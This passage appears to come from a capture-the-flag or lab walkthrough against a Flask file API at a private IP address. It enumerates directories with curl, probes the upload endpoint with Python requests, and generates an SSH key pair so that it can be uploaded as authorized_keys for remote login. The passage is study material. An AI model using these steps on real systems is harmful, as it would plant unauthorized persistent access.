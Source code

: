 ```
  "root",
  "var",
  "usr",
  "bin",
  "sbin",
  "lib",
  "lib64",
  "home",
  "media",
  "mnt",
  "opt",
  "srv",
  ".autorelabel"
]
> curl http://192.168.191.249:33414/file-list\?dir\=/home | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    12  100    12    0     0    138      0 --:--:-- --:--:-- --:--:--   139
[
  "alfredo"
]
```

Now let's try to use the `file-upload` one. This one is a bit tricky as we don't know how the server handles file upload with HTTP POST requests. But we can try all the possibilities.

Let's try a typical file upload request with python.

```python
import requests

files = {
    'file': open('./test.txt', 'rb'),
}

response = requests.post('http://192.168.191.249:33414/file-upload', files=files)
print(response.json())

```

```
{'message': 'No filename part in the request'}
```

One more thing to pay attention to: The API is in Python Flask. This was discovered using the file-list endpoint. Let's take a look at how to handle upload file with Python Flask.
[Uploading Files](https://flask.palletsprojects.com/en/2.3.x/patterns/fileuploads/)

After successfully uploading a test file. We can try to deliver our payload as an ssh accepted public key and connect to it.

```
# generate a new ssh key pair for payload
> ssh-keygen -t rsa -f id_rsa
# copy pub key to a new text file
> cp id_rsa.pub authorized_keys.txt
```

